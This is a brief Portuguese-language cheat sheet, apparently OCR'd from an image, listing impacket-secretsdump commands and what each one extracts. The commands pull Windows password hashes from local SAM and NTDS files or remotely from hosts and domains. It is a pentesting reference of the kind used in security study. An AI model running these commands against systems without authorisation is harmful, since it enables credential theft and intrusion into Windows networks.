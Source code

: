 impacket-secretsdump -sam sam file -system system file LOCAL → Descobre os hashes de senha dos computadores Windows

impacket-secretsdump -ntds ntds file -system system file LOCAL → Descobre os hashes de senha dos servidores Windows

impacket-secretsdump user:password@host → Descobre os hashes de senha de usuários no SAM, NTDS e no cache

impacket-secretsdump domain/user:’password’@host → Descobri os hashes dos usuários do dominio